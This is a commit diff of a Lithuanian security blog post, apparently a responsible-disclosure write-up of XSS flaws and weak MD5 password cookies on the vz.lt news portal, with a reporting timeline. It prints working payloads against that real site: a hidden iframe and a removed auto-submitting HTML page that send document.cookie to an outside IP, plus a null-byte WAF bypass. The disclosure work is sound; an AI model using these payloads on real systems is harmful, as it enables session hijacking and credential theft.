

Before and after one commit to JarLob/jarlob.github.io, a Jekyll site: the page built from _posts/2022-12-31-mano-vz.md, in a window 1280 px wide and 900 px high, scrolled down 4162 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
vz stored xss
wip

````diff
--- a/_posts/2022-12-31-mano-vz.md
+++ b/_posts/2022-12-31-mano-vz.md
@@ -8,7 +8,7 @@ permalink:  /lt/blog/vz-slapukai
 ---
 Atsitik tu man taip, kad naršydamas [Verslo Žinias](https://www.vz.lt) (VŽ) paspaudžiau "[uždraustą](https://techcrunch.com/2021/10/15/f12-isnt-hacking-missouri-governor-threatens-to-prosecute-local-journalist-for-finding-exposed-state-data/) [mygtuką](https://twitter.com/GovParsonMO/status/1448697768311132160)" F12. Dėmesį patraukė ilgas slapukų sąrašas:
 
-![Slapukai](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.001.png "Slapukai")
+![Slapukai](vz_slapukai.png "Slapukai")
 
 Ten buvo slapukų su įdomiu pavadinimu [evercookie](https://en.wikipedia.org/wiki/Evercookie), bet ši istorija ne apie tai. Labiausiai kliuvo `VzLtLoginInfo`, kurio reikšmė buvo mano elektroninio pašto adresas, ir `VzLTLoginInfoPwd`, kurio reikšmė buvo 32-iejų raidžių ir skaičių kratinys. Kadangi savo slaptažodį puikiai žinau, greitai [patikrinau](https://emn178.github.io/online-tools/md5.html) hipotezę, kad tai jo MD5 reikšmė.
 
@@ -26,25 +26,25 @@ Kaip matome `VzLtLoginInfoPwd` slapukas neturi `HttpOnly` atributo (t.y. JavaScr
 
 ### Ieškome XSS
 
-2018-ais esu pranešęs per [NKSC](https://www.nksc.lt/) apie galimybe įterpti Stored XSS akivaizdžioje vietoje - VŽ komentaruose. Pabandykime surasti XSS VŽ portale... Po kurio laiko išryškėja pirmasis kandidatas: [https://www.vz.lt/apps/pbcs.dll/exec?name=asdf](https://www.vz.lt/apps/pbcs.dll/exec?name=asdf).
+2018-ais esu pranešęs per [NKSC](https://www.nksc.lt/) apie galimybe įterpti Stored XSS akivaizdžioje vietoje - VŽ komentaruose. (Vėliau pavyko surasti XSS komentaruose ir vėl. Bet apie tai [skaitykite čia](#xss-komentaruose-nr-1).) Pabandykime surasti XSS VŽ portale... Po kurio laiko išryškėja pirmasis kandidatas: [https://www.vz.lt/apps/pbcs.dll/exec?name=asdf](https://www.vz.lt/apps/pbcs.dll/exec?name=asdf).
 
 Serveris atsako pranešimu:
 
-![ERROR: Script asdf is missing!](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.002.png "ERROR: Script asdf is missing!")
+![ERROR: Script asdf is missing!](vz_script_asdf_is_missing.png "ERROR: Script asdf is missing!")
 
 Tai, kad serveris "atspindi" mūsų įvestą reikšmę yra geras ženklas. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=<i>asdf</i>) ir gauname:
 
-![SQL Injection. System will not process this request.](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.003.png "SQL Injection. System will not process this request.")
+![SQL Injection. System will not process this request.](vz_sqli.png "SQL Injection. System will not process this request.")
 
 Tas pats ir su [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;](https://www.vz.lt/apps/pbcs.dll/exec?name=<). Panašu į kažkokį savadarbį [WAF](https://en.wikipedia.org/wiki/Web_application_firewall) (Web Application Firewall). Galima tik spėlioti prie ko čia SQL injekcija. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<i>asdf</i>) ir matome:
 
-![ERROR: Script italic_start asdf italic_end_ is missing!](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.004.png "ERROR: Script italic_start asdf italic_end is missing!")
+![ERROR: Script italic_start asdf italic_end_ is missing!](vz_script_asdf_is_missing_italic.png "ERROR: Script italic_start asdf italic_end is missing!")
 
 Įterpę nulinį baitą sėkmingai apėjome WAF, o serveris atvaizdavo mūsų HTML kodą. [Hello PHP](https://www.php.net/manual/en/security.filesystem.nullbytes.php)? :)
 
 Tačiau įvedę [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;script>alert(1)&lt;/script>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<script>alert(1)</script>) serveris atsako:
 
-![Access denied](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.005.png "Access denied")
+![Access denied](vz_access_denied.png "Access denied")
 
 Panašu, kad VŽ naudoja dar vieną WAF – Imperva. Šis komercinis sprendimas turi ilgą šleifą taisytų klaidų ir nors jo apėjimo būdą yra sunkiau surasti, tačiau [nėra](https://www.google.com/search?q=imperva+xss+bypass) [neįmanoma](https://github.com/0xInfection/Awesome-WAF/blob/master/README.md#imperva). Vis dėlto yra lengvesnių kelių. [Openbugbounty](https://www.openbugbounty.org/) randame du įrašus apie XSS VŽ portale, apie kuriuos buvo pranešta Verslo Žinioms 2018 m. Sausio 19 d. ir 2018 m. Rugpjūčio 10 d.:
 
@@ -57,29 +57,40 @@ Antrasis yra "pridengtas" Imperva, tačiau pirmasis veikia iki šiol! WAF naudoj
 
 Tai yra Reflected XSS, nes esamam vartotojui reikia atidaryti šią nuorodą, kad kodas būtų įvykdytas. Tačiau būtų klaidinga nuvertinti tai ir priskirti prie socialinės inžinerijos atakų. VŽ vartotojams, kurie naudoja Safari naršyklę nepasisekė - tereikia įterpti šį kodą `<iframe style="display:none" src="https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ehttps://172.17.247.54:4443?c=&#x22;+document.cookie%3c/script%3e"></iframe>` į kokį nulaužtą puslapį, kurį jie aplanko ir slapukas bus pavogtas jiems nematant. Iki 2020 m. vasaros tai taip pat veikė Chrome ir Firefox naršyklėse. Dabar tam reikia, kad slapukas būtų pažymėtas atributais `Secure` (leisti siųsti slapuką tiktai per HTTPS) ir `SameSite=None`. VŽ slapukai jų neturi.
 
-Vis dėlto, yra kitas būdas, kuris veikia visur. Šis kodas kenkėjiškame puslapyje arba nulaužtame forume trumpam blykstelėjęs išsiųs [vz.lt](https://vz.lt) slapukus trečioms šalims:
+Vis dėlto, yra kitas būdas, kuris veikia visur. Šis kodas kenkėjiškame puslapyje arba nulaužtame forume trumpam blykstelėjęs išsiųs [vz.lt](https://vz.lt) slapukus trečioms šalims.
 
-```html
-<html>
-<body>
-  Welcome
-  <form action="https://akademija.vz.lt/paieska/">
-    <input type="hidden" name="q"
-      value="&#x22;&#x3E;&#x3C;script&#x3E;fetch(&#x22;https://172.17.247.54:4443?c=&#x22;+document.cookie);history.back()&#x3C;/script&#x3E;" />
-    <input type="hidden" type="submit" value="Submit request" />
-  </form>
-  <script>
-    if (!document.cookie.split('; ').find(row => row.startsWith('foo='))) {
-      const url = new URL(window.location);
-      window.history.pushState({}, '', url);
-      document.forms[0].submit();
-      document.cookie = "foo=bar; expires=Fri, 31 Dec 9999 23:59:59 GMT";
-    }
-  </script>
-  <iframe width="640" height="320" src="https://www.youtube.com/embed/6FQsIfE7sZM" title="YouTube video player"
-    frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture"
-    allowfullscreen>
-  </iframe>
-</body>
-</html>
-```
+<details>
+  <summary style="cursor:pointer">▶ Proof of Concept:</summary>
+
+  <script src="https://gist.github.com/jarlob/22dc518fbfbaa9b64653a220f9dce2e9.js"></script>
+</details><br>
+
+### XSS komentaruose Nr. 1
+
+Kiek vėliau atsitiktinai atradau XSS VŽ komentaruose. Komentuojančio vartotojo vardas buvo tvarkingai atvaizduojamas net jei tas vardas turėjo specialių HTML simbolių kaip `Vardas<script>alert(1)</script>`. Tačiau jei į tokio vartotojo komentarą kas nors atsakydavo, jo vardas buvo interpretuojamas kaip HTML kodas. Taigi iš esmės užtektų tam pačiam vartotojui atsakyti į savo paties komentarą ir straipsnis su tokių komentaru butų "apkrėstas" kenkėjišku JavaScript kodų:
+
+![Stored XSS](vz_stored_xss1.png "Stored XSS")
+
+Tikras kenkėjiškas kodas galėjo lengvai pamodifikuoti antraštę, kad nesimatytų `<i>` ir `<script>` pradiniame pranešime.
+Šis Stored XSS yra pavojingesnis už prieš tai aprašytą Reflected XSS nes:
+1. Nereikia niekam siųsti specialiai paruoštų nuorodų arba apkrėtinėti trečiųjų šalių puslapių. Galima įterpti savo kodą tiesiai į VŽ komentarus. Aukai užtenka tiesiog atsiversti komentarų puslapį.
+2. WAF neapsaugo nuo tokio tipo atakos, nes nesugeba atskirti kur yra legitimus kodas, o kur yra įterptas.
+
+### XSS komentaruose Nr. 2
+
+Po pranešimo VŽ pataisė šią spragą, o taip pat pradėjo filtruoti vartojo vardus vartotojo profilio nustatymuose. Tačiau pastebėjau dar vieną šio XSS variaciją. Tuo metu kai nieko neįtariantis vartotojas tik paspausdavo "Atsakyti" į kenkėjiško vartotojo komentarą, jo vardas vis dar būdavo interpretuojamas kaip HTML:
+
+![Stored XSS](vz_stored_xss2.png "Stored XSS")
+
+Tai yra irgi Stored XSS, nors kiek mažiau pavojingas. Aukai reikėjo ne tik aplankyti užkrėsto straipsnio komentarus, bet ir paspausti "Atsakyti". Nors kai vartotojas norėdavo pasikeisti vardą, jis buvo filtruojamas, VŽ pamiršo filtruoti vartotojų vardus registracijos metų.
+
+### Chronologija:
+
+2022.01.28 - Išsiųstas el. laiškas VŽ Interneto produktų vystymo skyriaus vadovui ir [NKSC](https://www.cert.lt).
+2022.01.28 - Gautas patvirtinimas iš NKSC.
+2022.02.14 - NKSC pranešė, kad susisiekė su VŽ. Dėl neaiškių aplinkybių mano el. laiškas jų nepasiekė.
+2022.02.14 - VŽ padėkojo ir pranešė, kad XSS ištaisytas, o "slapukų naudojimo planuojama atsisakyti".
+2022.03.09 - Išsiųstas el. laiškas apie Stored XSS VŽ komentaruose VŽ Interneto produktų vystymo skyriaus vadovui ir NKSC.
+2022.01.28 - NKSC pranešė, kad susiekė VŽ telefonu.
+2022.03.09 - VŽ padėkojo ir pranešė, kad pažeidžiamumas ištaisytas.
+2022.03.09 - Išsiųstas el. laiškas apie XSS kai vartotojas spaudžia "Atsakyti".
````
Also changed, not shown: lt/blog/vz_access_denied.png (renamed from lt/blog/Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.005.png), lt/blog/vz_script_asdf_is_missing.png (renamed from lt/blog/Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.002.png), lt/blog/vz_script_asdf_is_missing_italic.png (renamed from lt/blog/Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.004.png), lt/blog/vz_slapukai.png (renamed from lt/blog/Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.001.png), lt/blog/vz_sqli.png (renamed from lt/blog/Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.003.png), lt/blog/vz_stored_xss1.png (added), lt/blog/vz_stored_xss2.png (added).
